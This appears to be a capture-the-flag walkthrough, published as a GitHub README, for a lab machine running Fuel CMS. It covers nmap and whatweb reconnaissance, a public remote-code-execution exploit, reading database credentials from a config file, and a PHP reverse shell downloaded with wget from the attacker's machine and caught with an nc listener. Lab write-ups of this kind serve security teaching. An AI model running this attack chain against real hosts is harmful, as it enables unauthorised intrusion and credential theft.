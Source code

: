 <hr style="border-color:red;"><h1 align="center"><img src="https://github.com/user-attachments/assets/a5b6e0e5-9274-4b5c-8fd4-c1713624185a"></h1>

<hr style="border-color:red;"><h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1><hr style="border-color:red;">

### **- Verifying the connectivity of the discovered device:**

```bash
ping -c 1 10.10.69.210
```
```bash
ping
The ping command is used to check network connectivity between your machine and another device by sending ICMP (Internet Control Message Protocol) echo request packets.
-c 1
The -c flag specifies the number of echo request packets to send. In this case, -c 1 means only one packet will be sent.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/86175868-81cd-4616-94ee-a886f94599ba"></picture><br>TTL = 63 ==> LINUX OS</h3><hr style="border-color:red;">

### **- Scanning of the discovered device to find all open ports to find possible access routes:**

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.69.210 -oG allPorts
```
```
-p-
This tells Nmap to scan all 65535 TCP ports (from 0 to 65535). By default, Nmap only scans the most common 1,000 ports.

--open
This filters the results to only show open ports, ignoring closed or filtered ports.

-sS
This specifies a SYN scan (also called a half-open scan or stealth scan).
Instead of fully establishing a TCP connection, Nmap sends an SYN packet and waits for a response.
If the target responds with SYN-ACK, it means the port is open.
If the target responds with RST, the port is closed.
If no response or an ICMP error is received, the port may be filtered (firewall blocking it).

--min-rate 5000
This forces Nmap to send at least 5000 packets per second, making the scan faster.
Without this, Nmap adjusts the speed automatically based on network conditions.

-vvv
This increases verbosity level (very very verbose).
It provides real-time feedback while scanning.
You will see results as they are discovered instead of waiting for the full scan to complete.

-n
This disables DNS resolution, making the scan faster.
By default, Nmap tries to resolve IPs to hostnames, which can slow down the scan.

-Pn
This tells Nmap to skip the host discovery phase and assume the target is up.
Normally, Nmap pings the target first to check if it is online.
If a firewall is blocking pings, this option is useful to force a scan even if the target doesn’t respond to pings.

-oG allPorts
This tells Nmap to output the results in "Grepable" format and save them in a file called allPorts.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e3e6e730-d446-4f9d-8c32-e2aaf34c3922"></picture><br>Accessible port 80 http </h3><hr style="border-color:red;">

### **- Analysis of the open ports found on the discovered device to get more information on the services running on those ports:**

```bash
nmap -sCV -p80 10.10.69.210 -oN targeted
```
```
-sC
Enables Nmap’s default script scanning.
This runs a set of default scripts to gather more information about detected services.
Scripts can detect vulnerabilities, enumerate software versions, and check for misconfigurations.
Equivalent to --script=default.

-sV
Performs version detection of services.
It tries to determine the exact software version running on open ports.

-p
This makes the scan faster and more targeted instead of scanning all ports.

-oN targeted
Saves the output in normal format to a file named targeted.
You can later review this file for findings.
```
<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/4673fd49-1a3e-41a1-b8af-d255f7eb410a"></picture><br></h3>

```bash
curl 10.10.69.210/robots.txt
```

<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/5d94029e-df39-47fe-919a-55153a8462f4"></picture><br>Nothing relevant</h3><hr style="border-color:red;">

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1><hr style="border-color:red;">

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

### **Scanning ms17-010 whit METASPLOIT for possible vulnerabilities**
```bash
whatweb "10.10.69.210"
```
```
tool is used for website reconnaissance. It identifies technologies used by a website, such as CMS, frameworks, programming languages, web servers, and security mechanisms.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7b2ac37a-b551-4641-913b-2e84b2cc54c2"></picture><br>From here we could already look for a vulnerability for FUEL CMS but we lack the correct version.</h3>

### **- From the same web we can find very valuable information:**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/bfa830a5-4450-4d09-8049-f05aff859112"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/4af62892-2d1e-44db-8abc-5bfb2d4592cd"></picture><br></h3>

### **- We will be able to log in with the information found.:**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e073e3af-a053-40b6-bac3-64c53843a6d2"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/3a7340c5-89ec-4d2b-8f1f-24732dc5c354"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7df5fd21-f5f6-44ea-a101-23123828a7dc"></picture><br>Now we have only confirmed the version of the CMS, now we will have to find a way to break the system..</h3>

### **- looking for possible vulnerabilities**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/83050add-a133-4c69-a1c2-a16aa896f308"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/3465a6a2-122a-4263-b340-324c6cb0f93b"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/56e2983b-2040-4bca-b424-5b87d7e388c8"></picture><br>This sploit requires to be used with python3</h3>

```bash
python3 50477.py -u http://10.10.69.210
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/15024ded-0f9f-437b-af24-54ddbfbb0f33"></picture><br>We are in</h3>

### **- Let's remember some information about the web**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e36381fe-462b-4ed6-9cba-6610340c2d2c"></picture><br></h3>

```
cat fuel/application/config/database.php 
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/bbe86f48-8313-45b8-b772-a82bb9783dff"></picture><br>We already have root credentials</h3>

### **- looking for the flags:**
```bash
ls /home/www-data
cat /home/www-data/flag.txt
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/a5a8a433-dc0d-4c85-9ddd-6fc57539a415"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/f57686c8-2894-474c-9662-6e33f048d80b"></picture><br>Even though we have the root credentials we do not have access to</h3>

### **- Now we will create a reverse shell that will give us access from the terminal of our attacking machine:**

```bash
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/f1c71928-734c-46a5-a28a-1b53d5fb914e"></picture><br>We are going to go to the web previously mentioned and copy the code changing the selected lines in the image, we will call this file “shell.php”.</h3>

### **- From our attacking machine we will create an http server with python to upload our file to the compromised machine.**

```bash
python3 -m http.server 80
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/16e6c3b5-bcb4-4d80-b994-081d16ce2f4b"></picture><br></h3>

### **- From the victim machine we download the file**

```bash
wget http://10.21.118.81/shell.php
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/091c55c7-4eab-4c3c-9218-0ee4cec7527e"></picture><br></h3>

### **- From our attacking machine we will listen on the assigned port**

```bash
nc -nlvp 444
```
```
treatment of tty
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
<h3 align="center"><picture><img src = "!https://github.com/user-attachments/assets/f28fe028-5533-44b7-8742-89ea78218a6c"></picture><br>We are in like a root</h3>
